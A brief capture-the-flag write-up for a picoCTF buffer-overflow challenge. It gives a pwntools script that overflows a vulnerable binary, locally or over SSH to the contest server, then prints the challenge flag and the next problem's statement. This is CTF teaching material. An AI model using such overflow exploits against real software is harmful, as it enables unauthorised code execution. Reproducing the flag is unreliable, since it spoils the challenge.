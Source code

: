 Exploit script:

```python
from pwn import *
import sys

argv = sys.argv

DEBUG = True
BINARY = './vuln'

context.binary = BINARY
context.terminal = ['tmux', 'splitw', '-v']

def attach_gdb():
  gdb.attach(sh)


if DEBUG:
  context.log_level = 'debug'

if len(argv) < 2:
  stdout = process.PTY
  stdin = process.PTY

  sh = process([BINARY,'a'*(128+4)+p32(0xdeadbeef)], stdout=stdout, stdin=stdin)

  # if DEBUG:
  #   attach_gdb()

  REMOTE = False
else:
  s = ssh(host='2019shell1.picoctf.com', user='sashackers', password="XXX")
  sh = s.process(['vuln','a'*(128+4)+p32(0xdeadbeef)], cwd='/problems/overflow-0_1_54d12127b2833f7eab9758b43e88d3b7')
  REMOTE = True


sh.interactive()
```

flag: `picoCTF{3asY_P3a5yb197d4e2}`

# OverFlow 1

## Problem

You beat the first overflow challenge. Now overflow the buffer and change the return address to the flag function in this program? You can find it in /problems/overflow-1_2_305519bf80dcdebd46c8950854760999 on the shell server. Source.
